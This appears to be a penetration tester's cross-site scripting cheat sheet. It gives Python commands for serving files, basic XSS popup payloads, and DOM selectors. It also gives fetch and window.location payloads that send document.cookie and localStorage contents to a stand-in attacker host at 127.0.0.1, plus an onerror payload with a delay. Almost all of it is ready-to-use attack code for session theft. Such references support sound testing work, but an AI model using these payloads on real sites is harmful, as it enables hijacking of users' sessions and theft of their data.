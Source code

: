 ## Python server

`python3 -m http.server [PORT]`
`python2 -m SimpleHTTPServer [PORT]`
# Basic JavaScript popups
`<script>alert(0)</script>`
`<img src='x' onerror='alert(0)'>`
`<iframe src="javascript:alert(0)"></iframe>`
# Obtain a script from remote host - useful if there is a character limit
`<script src='http://127.0.0.1'></script>`
# Useful JavaScript to interact with specific in-page elements
`document.getElementsByTagName("Tag-name-here")`
`document.getElementsbyId("Id-here")`
`document.getElementsByClassName("Class-name-here")`
`document.getElementsByName("Name-here")`
`document.getElementsByTagNameNS("Tag-in-namespace-here")`
# Performing a get request to a third-party service
`fetch("http://127.0.0.1")`

Extracting cookies:
`fetch("http://127.0.0.1?x="+document.cookie)`

Ensuring the content is treated as a sting:
`fetch("http://127.0.0.1?x="+JSON.stringify(document.cookie))`

Encoding content which has characters that can mess with things:
`fetch("http://127.0.0.1?x="+encodeURIComponent(JSON.stringify(document.cookie)))`

In event that certain security headers are applied, the fetch method may no longer work. Instead, the below could be used to force a redirect.
`window.location.href = "http://127.0.0.1?x="+JSON.stringify(document.cookie)`  
`window.location.replace("http://127.0.0.1?x="+JSON.stringify(document.cookie))`

# Odds N' Ends

Timeout function in case in-page elements load at different times
`<img src='x' onerror=setTimeout(function(){fetch("http://127.0.0.1"))}, 5000);'>`

Accessing local storage
`encodeURIComponent(JSON.stringify(localStorage))`
